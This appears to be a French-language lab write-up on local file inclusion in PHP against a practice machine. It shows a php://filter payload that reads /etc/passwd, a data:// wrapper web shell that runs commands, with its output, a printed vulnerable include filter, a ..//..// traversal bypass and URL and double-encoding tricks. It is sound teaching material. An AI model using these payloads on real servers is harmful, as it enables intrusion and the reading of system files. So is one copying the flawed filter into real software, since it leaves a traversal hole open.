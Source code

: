 ## PHP Wrappers
Les wrappers PHP font partie des fonctionnalités de PHP qui permettent aux utilisateurs d'accéder à différents flux de données. Les wrappers peuvent également accéder ou exécuter du code via des protocoles PHP intégrés, ce qui peut entraîner des risques de sécurité importants s'ils ne sont pas correctement gérés.

Par exemple, une application vulnérable au LFI peut inclure des fichiers basés sur une entrée fournie par l'utilisateur sans validation suffisante. Dans ce cas, les attaquants peuvent utiliser le filtre `php://filter`. Ce filtre permet à un utilisateur d'effectuer des opérations de modification de base sur les données avant qu'elles ne soient lues ou écrites. Par exemple, si un attaquant veut encoder le contenu d'un fichier inclus comme `/etc/passwd` en base64. Ceci peut être réalisé en utilisant le filtre de conversion `convert.base64-encode` du wrapper. La charge utile finale sera alors `php://filter/convert.base64-encode/resource=/etc/passwd`

## Data Wrappers
Le wrapper de flux de données est un autre exemple de la fonctionnalité de wrapper de PHP. Le wrapper `data://` permet d'intégrer des données en ligne. Il est utilisé pour intégrer de petites quantités de données directement dans le code de l'application.
par exemple: `data:text/plain,<?php phpinfo(); ?>` on fais du URL encode


```data:text/plain,<?=`$_GET[0]`?>```

En faisant ceci :
```
http://10.10.152.222/playground.php?page=data:text/plain,%3C?=`$_GET[0]`?%3E&0=id
 uid=33(www-data) gid=33(www-data) groups=33(www-data),27(sudo) 
```


### Challenge
Quand j'essaie de faire un LFI dans `http://10.10.152.222/lfi.php?page=%2Fetc%2Fpasswd` on me dit ` You are not allowed to go outside /var/www/html/ directory!` So maintenant je vais faire dans ce repertoire et faire un bypass

```
http://10.10.152.222/lfi.php?page=/var/www/html/..//..//..//..//..//..//etc/passwd
```

Voici le code :

```php
           
function containsStr($str, $subStr){
    return strpos($str, $subStr) !== false;
}

if(isset($_GET['page'])){
    if(!containsStr($_GET['page'], '../..') && containsStr($_GET['page'], '/var/www/html')){
        include $_GET['page'];
    }else{ 
        echo 'You are not allowed to go outside /var/www/html/ directory!';
    }
}
```
La fonction PHP `containsStr` vérifie si une sous-chaîne existe dans une chaîne de caractères. La condition `if` vérifie deux choses. Premièrement, si `$_GET['page']` ne contient pas la sous-chaîne ``../..`` et si `$_GET['page']` contient la sous-chaîne `/var/www/html`, cependant, ``..//..//`` contourne ce filtre parce qu'il navigue encore effectivement vers le haut de deux répertoires, de manière similaire à ``../../.`` Il ne correspond pas exactement au motif bloqué ``../...`` en raison des barres obliques supplémentaires. Les barres obliques supplémentaires // dans ``..//..//`` sont traitées comme une seule barre oblique par le système de fichiers. Cela signifie que ``../../ `` et ``..//..//`` sont fonctionnellement équivalents en termes de navigation dans les répertoires, mais que seul ../../ est explicitement filtré par le code.

## Bypass
Les techniques d'encodage sont souvent utilisées pour contourner les filtres de sécurité de base que les applications web peuvent avoir mis en place. Ces filtres recherchent généralement des séquences évidentes de traversée de répertoire telles que ``../.`` Cependant, les attaquants peuvent souvent échapper à la détection en encodant ces séquences et en continuant à naviguer dans le système de fichiers du serveur.


   -  Standard URL Encoding: ../ becomes %2e%2e%2f
   - Double Encoding: Useful if the application decodes inputs twice. ../ becomes %252e%252e%252f